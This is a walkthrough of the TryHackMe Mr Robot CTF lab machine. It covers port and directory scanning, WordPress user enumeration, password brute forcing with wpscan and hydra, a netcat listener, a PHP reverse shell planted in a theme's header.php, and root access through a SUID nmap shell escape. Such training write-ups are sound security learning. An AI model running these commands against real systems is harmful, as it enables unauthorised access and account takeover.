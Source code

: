 ```yaml
---
title: "Writeup for Mr Robot CTF on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/mr_robot.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags."
description: "Walkthrough on Mr Robot CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - mrrobot
  - THM
  - CTF
  - privesc
  - witeup
  - TryHackMe
toc: false
---
```

# Mr Robot CTF

<img src="/assets/images/posts/writeups/mr_robot.jpg" alt="Mr Robot" width="500" class="align-center">

TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags.

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV [machineIp]
```

Results:
```sh
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://[machineIp]/FUZZ 
```

Results:
```sh
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 57ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 61ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 61ms]
                        [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 90ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 783ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 51ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 52ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 51ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 51ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 831ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 830ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 834ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 51ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 866ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 70ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 59ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 54ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 788ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 59ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 53ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 60ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 52ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 791ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 57ms]
wp-admin                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 53ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 57ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 53ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 852ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 829ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 873ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 777ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 951ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 898ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 837ms]
:: Progress: [4614/4614] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:38] :: Errors: 0 ::
```

## Exploitation

### Foothold
1. Check content of robots.txt file found in file enumeration
2. In the robots there is a file called http://[machineIp]/key-1-of-3.txt containing **Key1** (FIRST KEY IN THE CTF)
3. Also, in location http://[machineIp]/fsocity.dic is a dictionary, download it locally for later
4. Check the installed wordpress instance using wpscan:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -e vp,vt,cb,u,dbe,m
```
5. Scanning the wordpress we found two users: **elliot**, **mich05654**
6. Brute force with wpscan for user **mich05654**:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -U mich05654 -P /home/kali/Downloads/fsocity.dic 
```
7. Found password for mich05654!
8. Login with found user and password on the http://[machineIp]/wp-login.php
9. This user has limited access in wordpress
10. Since brute forcing with wpscan is realy slow we can use BurpSuite or Hydra to bruteforce for user *elliot*
11. Check for dictionary downloaded; a lot of lines are repeating - clean the dictionary first
12. Checking the dictionary again I saw that a couple of more than 11k passwords are repeating except last few lines:
```txt
ER28-0652
psychedelic
iamalearn
uHack
imhack
abcdefghijklmno
abcdEfghijklmnop
abcdefghijklmnopq
c3fcd3d76192e4007dfb496cca67e13b
ABCDEFGHIJKLMNOPQRSTUVWXYZ
```
13. Bruteforcing with this small list I found elliot's password!
```sh
hydra -l elliot -P /home/kali/Downloads/short.txt [machineIp] http-post-form "/wp-login.php:log=elliot&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.146.151%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
14. Start a local listener with netcat `nc -lvnp 4455`
15. Login with elliot on wordpress and edit theme (Apearance >> Editor) replace the content of file (header.php) with a php rev shell (PentestMonkey.php from here https://www.revshells.com/)
16. Re-visit blog to load the content of header.php, the reverse shell should run

#### Data exfiltration
1. We are logged as user "daemon" on Linux machine and the second flag is own by user "robot", for this a lateral movement will be needed
2. Check for SUID `find / -perm /4000 2> /dev/null`
3. Found nmap instance with SUID set `-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap`

### Privilege escalation
1. Check https://gtfobins.github.io/gtfobins/nmap/ for how you can spawn a shell using nmap:
```sh
nmap --interactive
nmap> !sh
```
2. Voila! You are root :)

#### Data exfiltration
1. Read content of /home/robot/key-2-of-3.txt for **Key2** (SECOND KEY IN THE CTF)
2. Read content of /root/key-3-of-3.txt for **Key3** (THIRD KEY IN THE CTF)